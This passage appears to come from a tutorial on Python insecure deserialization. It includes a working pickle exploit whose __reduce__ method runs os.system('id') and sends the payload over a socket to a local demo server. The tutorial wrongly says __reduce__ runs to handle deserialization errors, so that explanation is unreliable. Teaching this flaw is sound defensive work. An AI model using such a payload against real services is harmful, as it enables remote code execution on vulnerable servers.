 Insecure Deserialization is a vulnerability that occurs when untrusted data is used to abuse the logic of an application, inflict a denial of service (DoS) attack, or even execute arbitrary code upon being deserialized.

Basically, when the user controls the data, it becomes a problem, because the user can manipulate the data being sent to our application.

The exploitation mechanism differs for each language, since we are using Python it's relatively easy.

Let's continue with our example, let's exploit the server,

The exploit utilizes the `__reduce__` method, which tells the pickle module how to handle deserialization errors natively within a class directly.

To understand what is `__reduce__` see this [Stackoverflow](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler) question.

we will also use [os.system()](https://docs.python.org/3/library/os.html#os.system), to execute `id` command

```python
import pickle
import socket

class Exploit:
    def __reduce__(self):
        import os
        # return type of __reduce__ must be a str or tuple
        # so we are going to return a tuple of ( function , (arguments_to_that_function, ) )
        return ( os.system , ("id",) )

exploit =  Exploit()

host = "127.0.0.1"
port = 4444

s = socket.socket()

s.connect((host,port))

payload = pickle.dumps(exploit)

print(payload)

s.send(payload)

```

Now when our server tries to deserialize the `Exploit` class as `Person` it is going to fail,and because we added the `__reduce__` method, It's going to run whatever code inside the `__reduce__` method to handle the error, keep in mind that we can make it fail in a number of ways.

Let's start the server and launch our exploit.
